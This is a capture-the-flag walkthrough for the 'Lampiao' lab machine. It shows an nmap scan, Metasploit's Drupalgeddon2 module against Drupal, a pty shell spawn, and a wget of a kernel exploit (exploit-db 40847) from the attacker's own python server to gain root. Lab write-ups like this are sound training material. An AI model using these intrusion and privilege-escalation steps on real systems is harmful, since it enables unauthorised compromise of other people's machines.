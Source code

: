 # Lampiao
Points - 5  
Difficulty - Easy
---

As always we first start with scanning the  ip address      
```
$ nmap -A -p- ip_address
```
The full port scan shows a Drupal interface on port 1898

![](images/scan1.png)

Lets fire up metasploit and check if there's an exploit     
```
msf6 > search drupal 7
```
From googling Drupal 7 exploit we find that there's an exploit called **Drupalgeddon2**
Select the one with Drupalgeddon2 => **exploit/unix/webapp/drupal_drupalgeddon2**       
You can check the requirements needed by just typing in     
```
show OPTIONS
```
For setting the parameters use
```
set parameter ip_address/port
```
Set the RHOSTS, RPORTS correctly and don't forget that for LHOSTS you have to enter the ip from the vpn pack and finally enter **exploit** or **run** for metasploit to run the exploit         

![](images/meterpreter1.png)

Use the below command to get a python interactive shell
```
python -c "import pty; pty.spawn(\"/bin/bash\")"
```
Navigating to home we see a directory named tiago where we can find the user flag     

I checked the kernel version on the system      

![](images/kernel.png)      

Googling an exploit for the version I found one on [exploit-db](https://www.exploit-db.com/exploits/40847). I downloaded this file onto my local computer and hosted a python server in that directory to wget onto the target machine.     

I know downloading directly onto the taget machine would have been easier but for some reason it was not connecting to the exploit-db site.

You can setup a local python server using
```
$ python3 -m http.server port
```

Download the file onto the /tmp directory
```
wget http://ip_address:port/40847.cpp
```

Follow the instructions in the C file to run the exploit.   

After compiling and running the file, voila we are root.
The command to compile is given in the exploit cpp file, use that.

![](images/root.png)

Navigate to the root and home directory to find the flags.
